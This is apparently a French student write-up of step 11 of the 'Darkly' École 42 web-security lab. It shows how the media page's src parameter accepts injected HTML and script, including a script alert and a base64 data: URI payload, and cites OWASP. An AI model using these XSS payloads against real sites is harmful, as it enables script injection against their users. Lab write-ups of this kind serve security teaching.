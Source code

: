 # Darkly - École 42

## 11. XSS - src=nsa

- Sur la page d'accueil, on clique sur le logo de la NSA

view-source:http://10.12.200.47/index.php?page=media&src=nsa

```
<object data="http://10.12.200.47/images/nsa_prism.jpg"></object>
```

view-source:http://10.12.200.47/index.php?page=media&src=qwerty

404

```
<object data="qwerty"></object>
```

```
http://10.12.200.47/index.php?page=media&src=<h1 style="color:red;"><u>test</u></h1>
http://10.12.200.47/index.php?page=media&src=<script>alert("Coucou");</script>
```

Trouve sur : https://owasp.org/www-community/attacks/xss/ : XSS Using Code Encoding : We may encode our script in base64

```
http://10.12.200.47/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
```

c'est `<script>alert('test3')</script>` encode en base 64
